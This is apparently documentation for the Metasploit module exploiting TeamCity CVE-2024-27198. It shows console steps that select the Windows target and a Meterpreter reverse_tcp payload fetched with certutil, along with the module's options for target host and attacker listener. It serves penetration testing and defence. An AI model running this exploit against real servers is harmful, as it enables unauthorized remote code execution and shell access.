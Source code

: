 ### Windows Command

Note: Ensure the target is a Windows target by confirming via the `check` command.

Note: Ensure the `FETCH_COMMAND` is set to a suitable value, such as `CERTUTIL`.

Note: Ensure the `FETCH_WRITABLE_DIR` is set to a suitable value, such as `%TEMP%`.

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 2
target => 2
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/
Display all 623 possibilities? (y or n)
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      qaZbVnKb         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

```